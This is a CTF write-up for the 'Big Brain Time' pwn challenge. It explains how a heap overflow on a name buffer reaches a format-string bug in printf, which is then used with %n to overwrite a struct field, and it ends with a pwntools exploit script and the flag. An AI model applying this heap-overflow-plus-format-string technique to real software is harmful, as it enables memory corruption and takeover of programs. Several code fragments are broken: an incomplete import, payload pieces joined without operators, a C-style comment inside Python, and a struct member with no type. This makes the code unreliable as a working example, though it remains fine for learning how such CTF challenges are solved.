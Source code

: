 ```yaml
---
title: Big Brain Time
date: 2020-12-22
categories: [pwn]
tags: [interiutctf]
toc: false
---
```


#### Notes:

- We know address of qi_de_base

- 0x8202010

- There is format string vuln

- printf(user->display, user->name, user->sex);

- user data is written in heap

- no aslr and no pie

- Have heap overflow on user->name

  
```C
typedef struct moron
{
		int qi;

	char sex;

	char name[STR_LEN];

	display[STR_LEN];

}	person
```
This is the user->qi `person *user = new_p();`

#### Steps:

  
1. Use heap overflow on user->name to write into user->display

- user->display is where the fmt string bug is located

2. Find address of *user with format string

- target is person *user = new_p(), goal is to override user->qi which is the first index of the struct.

3. Send payload to write to address of user->qi (from step 3)

after filling user->name buffer Final payload: Junk (to fill user->name) + payload to write to user->display + format string to write to user->qi with length of payload written to user->display

  

#### Heap Overflow

```C
typedef struct moron
{

	int qi;

	char sex;

	char name[64];

	display[64];

}	person

Person *user = new Moron;

// Heap overflow to override display

scanf("%s", user->name)
```
  

#### Format String
```C
user_display = 'A' * val_length_for_qi + "offset_to_qi%n";

printf(user_display);
```

#### Goal
```C
// To make user->qi > 128
if (user->qi > 128) {
	puts("WIN");
} else {
	puts("Vous êtes sûrs d'être en bonne santé ?");
}
```
  

#### Code

  
```Python
from pwn import 

io = process('./bigbrain')
context.log_level = 'debug'

context.terminal = ['tmux', 'splitw', '-v']

def nom(payload, io):
	io.sendlineafter('Nom :', payload)

def sexe(payload, io):
	io.sendlineafter('Sexe [M/F] :', payload)

junk = b'A'*0x40
val_length_for_qi = b'B'*129
fmt_string_offset = b'%9$n,'

nom_payload = (
	junk
	val_length_for_qi
	fmt_string_offset
)

sexe_payload = 'M'

nom(nom_payload, io)
sexe(sexe_payload, io)

io.interactive()
//H2G2{w0w_5uch_vu1n3r4b1lit13s}
```